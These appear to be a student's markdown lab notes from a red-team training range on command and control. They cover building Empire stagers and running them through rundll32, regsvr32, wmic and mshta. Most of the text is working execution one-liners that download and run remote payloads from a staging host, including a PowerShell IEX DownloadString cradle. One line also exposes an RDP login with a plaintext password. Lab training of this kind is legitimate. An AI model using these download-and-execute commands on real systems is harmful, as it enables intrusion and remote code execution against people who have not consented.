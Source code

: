 #### Tags: [[12 - Command and Control (TA0011)]]

## Objectives

    Create different payloads for familiarity
    Test payloads from the range
    Use additional tools to enhance payloads
## Overview
This lab will focus on creating multiple payloads and then testing them in the student range. We will use various methods to gain familiarity with different techniques.

### Launch [[Empire C2#Create an Empire listener]] 

## [[PowerShell Stager with rundll32.exe]]

#### *Payload:* Create interactive HTTP Powershell Stager

![[Pasted image 20240317180009.png]]

#### *Execution Technique:* 
```markdown
# Executing Stager with rundll32.exe
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://10.254.252.3:8000/setup.ps1');")
```
##### Or we can copy the payload for execution via [[Enterprise Microsoft Exchange server#Interact with the Web Shell|ASPX Web Shell]]
![[Pasted image 20240324025733.png]]

----
## [[SCT stager and execute with regsvr32.exe]]

#### *Payload:* Create a SCT stager
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp`

![[Pasted image 20240317175954.png]]
#### *Execution Technique:* 
```markdown
# Executing Stager with regsvr32.exe
regsvr32 /s /n /u /i:http://10.254.252.3:8000/config.sct scrobj.dll
```

---
## [[WMIC stager and execute with wmic]]

#### *Payload:* Create WMIC Stager

![[Pasted image 20240317175936.png]]

#### *Execution Technique:* 
```markdown
# Executing Stager with wmic
wget http://10.254.252.2:8000/update.xsl -o update.xsl
wmic os get /format:"update.xsl"
```

---

## [[HTA stager and execute with mshta.exe]]

#### *Payload:* Create HTA Stager

![[Pasted image 20240317175917.png]]
#### *Execution Technique:* 
```markdown
# Executing Stager with mshta.exe
mshta.exe http://10.254.252.3:8000/app.hta
```

----
### Executing Techniques

Link to Heading
and create 2 - Payloads & Execution Tech 

#### Notes | Bonus
- Create Links
- Bonus RT Sections 
	- Learn to deploy payload without RDP 
	- Learn to leverage Cobalt strike for payload creation

## Conclusion

